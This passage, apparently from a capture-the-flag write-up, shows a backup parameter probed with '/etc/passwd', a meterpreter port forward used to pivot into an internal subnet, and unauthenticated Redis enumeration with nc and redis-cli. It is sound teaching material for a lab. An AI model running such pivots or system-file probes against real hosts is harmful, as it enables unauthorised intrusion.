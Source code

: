 ![](/img/1532623444474.png)

What about trying to exercise the backup function? Visiting
`http://127.0.0.1/8924d0549008565c554f8128cd11fda4/ajax.php?backup=/etc/passwd`
eventually has a timeout, which makes sense since the comments said it
was not yet implemented:

![](/img/1532619153975.png)

This error message does give me the absolute web path, which is the
default apache path, `/var/www.md`.

### Database

So I can do some interaction with the database through the website and
JavaScript... But I can also interact directly with the Redis database.

Just like with www, I'll use meterpreter to set up a tunnel into the
subnet with www and redis:



    meterpreter > portfwd add -l 6379 -r 172.19.0.2 -p 6379
    [*] Local TCP relay created: :6379 <-> 172.19.0.2:6379



I can do basic enumeration with nc:



    root@kali# nc 127.0.0.1 6379
    get hits
    $-1
    incr hits
    :1
    get hits
    $1
    1
    incr hits
    :2
    get hits
    $1
    2



Very cool.

I also installed `redis-cli` for interaction with the db:

1.  `git clone http://github.com/antirez/redis.git`
2.  `cd redis`
3.  `make redis-cli`
4.  `ln -s /opt/redis/src/redis-cli /usr/local/bin/redis-cli`



    root@kali# redis-cli  # by default, connects to localhost 6379
    127.0.0.1:6379> incr hits
    HISTORY: /root/.rediscli_history
    (integer) 1
    127.0.0.1:6379> incr hits
    HISTORY: /root/.rediscli_history
    (integer) 2
    127.0.0.1:6379> get hits
    HISTORY: /root/.rediscli_history
    "2"
